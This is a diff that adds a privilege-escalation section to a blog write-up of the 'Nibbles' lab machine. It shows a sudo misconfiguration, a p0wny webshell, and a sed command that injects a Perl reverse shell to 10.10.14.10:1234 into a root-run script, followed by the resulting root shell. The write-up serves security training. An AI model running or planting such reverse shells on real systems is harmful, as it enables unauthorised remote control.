

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-24-nibbles.md, in a window 1280 px wide and 1400 px high, scrolled down 4221 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-24-nibbles.md
+++ b/_posts/2020-07-24-nibbles.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: Nibbles
-tags: [OSCP, Writeup, Linux, Web, FIle isconfiguration, CMS Exploit]
+tags: [OSCP, Writeup, Linux, Web, FIle Misconfiguration, CMS Exploit]
 description: "Nibbles write-up"
 ---
 
@@ -157,9 +157,76 @@ http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
 
 ![Powny shell](/assets/imgs/nibbles/powny_shell.PNG)
 
-I have a webshell as the user ! Now it's time to root !
+I have a webshell as the user ! Now it's time to root ! First things that I do, is to check if I can run commands as someone else :
 
+```
+sudo -l
+Matching Defaults entries for nibbler on Nibbles:
+	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
+User nibbler may run the following commands on Nibbles:
+	(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
+```
+
+I can run a bash script with root privileges ! So if I can modify monitor.sh it's a win !
+
+```
+p0wny@shell:/home/nibbler# ls
+personal.zip
+user.txt
+```
+
+Unzip the zip file, like so :
+
+```
+p0wny@shell:/home/nibbler# unzip personal.zip
+Archive:  personal.zip
+   creating: personal/
+   creating: personal/stuff/
+  inflating: personal/stuff/monitor.sh
+```
+
+Now let's see the rights of this file :
+
+```
+p0wny@shell:…/personal/stuff# ls -al
+total 12
+drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
+drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
+-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
+```
+
+Nice I can modify it ! It's a win, I just have to add a reverse shell in the file and launch it as root.
+
+```
+sed  -i '1i perl -e '\''use Socket;$i="10.10.14.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'\''' monitor.sh
+```
+
+This is adding my perl reverse shell ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) at the begining of the file. Launch a nc listener :
+
+```
+nc -lvp 1234
+```
+
+And launch the script with root privileges :
+
+```
+sudo -u root /home/nibbler/personal/stuff/monitor.sh
+```
+
+Go check the nc listner :
+
+```
+nc -lvp 1234
+listening on [any] 1234 ...
+10.10.10.75: inverse host lookup failed: Unknown host
+connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 52660
+/bin/sh: 0: can't access tty; job control turned off
+# whoami
+root
+```
+
+Voila ! I'm root, now go read the flags.
 
 ## Flags
 
````
